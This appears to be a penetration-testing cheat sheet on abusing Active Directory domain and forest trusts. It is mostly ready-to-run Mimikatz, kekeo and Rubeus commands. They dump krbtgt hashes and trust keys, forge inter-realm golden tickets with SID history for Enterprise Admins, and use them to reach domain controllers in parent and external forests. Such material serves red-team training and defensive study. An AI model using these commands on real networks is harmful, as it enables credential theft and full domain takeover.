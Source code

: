 ## Within the Same Forest

#### Child to Parent Trust Abuse

Domains in the same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains. There are two ways of escalating privileges between two domains of the same forest.

1. krbtgt hash
2. trust tickets


#### Krbtgt Hash Method

Abuse SID history, obtain the SID for the Enterprise Admins Group of the root domain

```powershell
#Abuse SID History
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

Use Invoke-Mimikatz to forge the inter-realm TGT.

```powershell
#The option /sids is forcefully setting the SID History for the Enterprise Admins group for abc.example.local
#Which is the forest Enterprise admins group
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:abc.example.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

Breakdown of Invoke-Mimikatz command.

```
Kerberos:golden - Name of the module used
/domain - domain FQDN
/sid - SID of the domain
/sids - SID of the Enterprise Admins group of the parent domain
/krbtgt - hash of krbtgt
/user - User to impersonate
/ticket - path to where ticket will be saved
```

+
Execute this command on any machine in the domainm using the saved ticket.

```powershell
#On any machine in the current domain
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

ls \\root-dc.example.local\c$
gwmi -class win32_operatingsystem -ComputerName root-dc.example.local
```



#### Trust Key Method

In order to forge a trust ticket, we need the trust key

Obtain the trust key using one of the following.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc

or 

Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\root$"'
```


In the output from the first command we are looking for the hash from [IN] from child to parent to domain.


Forge the inter-realm TGT

```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:abc.example.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:229d1532e203aa3a2886c623ec573778 /service:krbtgt /target:example.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"' 
```

Breakdown of Invoke-Mimikatz command.

```
Kerberos:golden - Name of the module used
/domain - domain FQDN
/sid - SID of the domain
/sids - SID of the Enterprise Admins group of the parent domain
/rc4 - RC4 of the trust key
/user - User to impersonate
/service - Target service in the parent domain
/target - FQDN of the parent domain
/ticket - path to where ticket will be saved
```

Obtain a TGS

```powershell
#Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket. 
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/root-dc.example.local
#Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.
```


Access Target Service with TGS

```powershell
#Using kirbakator
.\kirbikator.exe lsa .\CIFS.root-dc.example.local.kirbi
ls \\root-dc.example.local\c$ 


#Using Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/root-dc.example.local /dc:root-dc.example.local /ptt
ls \\root-dc.example.local\c$ 
```



## Across Forests


Verify trust relationship between forests.

```powershell
#only external trustt
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
```

Obtain the trust key for the inter-forest trust

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

Or

Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```


Forge the Inter-Forest TGT.

```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:abc.example.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:3424f66700f8c44560d0b537130ddc39 /service:krbtgt /target:external.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi"'
```

Break down of Invoke-Mimikatz command.


```
Kerberos:golden - Name of the module used
/domain - domain FQDN
/sid - SID of the current domain
/rc4 - Hash of the external forest found in lsadump::lsa /patch
/user - User to impersonate
/service - Target service in the parent domain
/target - FQDN of the external domain
/ticket - path to where ticket will be saved
```

Request a TGS for a service


```powershell
#Tickets for other services (like HOST and RPCSS for WMI, HOST and  HTTP for PowerShell Remoting and WinRM) can be created as well.
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/external-dc.external.local
```


Use the TGS to access targeted service

```powershell
#using kirbikator
.\kirbikator.exe lsa .\CIFS.external-dc.external.local.kirbi

ls \\external-dc.external.local\Share\


#Using rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/external-dc.external.local /dc:external-dc.external.local /ptt

ls \\external-dc.external.local\share\
```